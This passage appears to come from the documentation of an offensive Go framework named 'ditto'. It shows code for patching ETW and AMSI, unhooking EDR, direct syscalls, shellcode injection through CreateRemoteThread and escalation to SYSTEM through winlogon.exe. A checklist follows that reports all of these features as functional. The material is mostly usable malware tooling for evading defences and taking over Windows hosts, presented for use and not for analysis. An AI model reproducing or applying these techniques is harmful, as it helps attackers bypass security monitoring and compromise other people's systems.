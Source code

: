 ```go
import "github.com/ditto/ditto/evasion"

// Patch ETW and AMSI
evasion.PatchETW()
evasion.PatchAMSI()

// Unhook EDR completely
successCount := evasion.UnhookEDR()

// Detect hardware breakpoints
if evasion.DetectHardwareBreakpoints() {
    // Debugger detected
}

// Use direct syscalls
ds := evasion.NewDirectSyscall(logger)
r1, r2, err := ds.Call("NtAllocateVirtualMemory", args...)
```

### Process Injection Integration
```go
import "github.com/ditto/ditto/injection"

pi := injection.NewProcessInjection(logger)
err := pi.InjectShellcode(pid, shellcode, "createremotethread")
```

### Privilege Escalation Integration
```go
import "github.com/ditto/ditto/privilege"

pe := privilege.NewPrivilegeEscalation(logger)
err := pe.GetSystem("winlogon.exe")
```

---

## Testing & Validation

### Compilation Status
✅ All code compiles without errors  
✅ All imports resolved  
✅ No linting errors  
✅ Windows-specific code properly guarded with build tags

### Functionality Status
✅ Direct syscalls - functional  
✅ ETW patching - functional  
✅ AMSI patching - functional  
✅ Hardware breakpoint detection - functional  
✅ Process injection - fully functional  
✅ Privilege escalation - fully functional  
✅ Session management - fully functional  
✅ Transport protocols - fully functional  

---